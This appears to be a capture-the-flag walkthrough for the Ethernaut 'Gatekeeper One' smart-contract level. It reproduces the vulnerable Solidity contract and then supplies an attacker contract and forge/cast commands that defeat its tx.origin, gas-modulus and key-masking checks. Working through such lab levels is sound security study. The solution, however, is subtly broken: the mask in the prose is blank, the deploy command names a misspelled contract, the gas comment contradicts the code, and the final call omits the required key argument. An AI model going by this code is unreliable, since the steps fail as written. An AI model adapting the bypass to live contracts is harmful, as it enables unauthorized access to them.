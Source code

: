 ## Gatekeeper One Level Outline

**Difficulty : 5/10**

Make it past the gatekeeper and register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the remaining gas needs to be divisible by 8191. To satisfy this, we will use [foundry's debugger](https://book.getfoundry.sh/forge/debugger.html?highlight=debugger#debugger) to find the right gas amount in order to pass the check.

To pass the third modifier `gateThree()`, we need to byte mask our address with `` to pass all three checks.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    GateKeeperOne gateKeeper;

    constructor(address _gateKeeper) {
        gateKeeper = GateKeeperOne(_gateKeeper);
    }

    // 0x8208b86dA007aa26 (last 4 bytes of addr)
    // 7747 (gas used found from debugger) + 57337 (8191 * 7)
    function enter(bytes8 addr) public {
        bytes8 key = addr & 0xFFFFFFFF0000FFFF;
        gateKeeper.enter{gas: 7747}(key);
    }
}

interface GateKeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}
```

##### 2. 

```console
forge create src/Contract.sol:Attacl --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## [:arrow_left: Back To Main Menu](../)
